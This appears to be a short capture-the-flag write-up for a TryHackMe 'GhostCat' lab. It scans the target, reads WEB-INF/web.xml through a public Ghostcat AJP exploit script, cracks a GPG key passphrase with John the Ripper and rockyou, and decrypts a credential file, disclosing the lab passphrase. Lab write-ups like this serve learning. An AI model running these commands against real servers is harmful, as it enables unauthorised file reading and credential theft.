





# GhostCat

```bash
furious 10.10.239.44
nmap -sC -sV -sS -p 22,53,8009,8080 -n -Pn -oN targeted 10.10.239.44
```



We try Ghostcat File Read/Inclusion with https://github.com/00theway/Ghostcat-CNVD-2020-10487

reference: https://medium.com/@apkash8/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

```bash
python3 ajpShooter.py http://10.10.239.44:8080/ 8009 /WEB-INF/web.xml read
```



```bash
gpg2john tryhackme.asc > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



we import the key with the password `alexandru`

```bash
gpg --import tryhackme.asc
```



Now we have to decrypt `credential.gpg`

```bash
gpg --output credential.txt --decrypt credential.gpg
```

